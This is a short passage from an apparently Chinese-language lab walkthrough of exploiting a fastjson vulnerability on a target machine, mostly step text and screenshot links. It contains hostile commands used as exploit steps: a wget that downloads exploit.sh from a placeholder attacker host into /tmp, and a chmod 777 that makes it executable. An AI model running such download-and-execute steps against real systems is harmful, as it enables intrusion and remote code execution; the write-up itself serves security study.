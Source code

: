 ![fastjson](imgs/13.png)

4.查看/tmp目录下成功生成exploit.sh

![fastjson](imgs/10.png)

5.同理我们将第二步的操作`/usr/bin/wget -P /tmp http://xx.xx.xx.xx/exploit.sh`换成`/bin/chmod 777 /tmp/exploit.sh`，重复上述操作，将exploit.sh脚本文件权限变成可读可写可执行，可以看到我们靶机上的exploit.sh的权限已经改变了。

![fastjson](imgs/14.png)
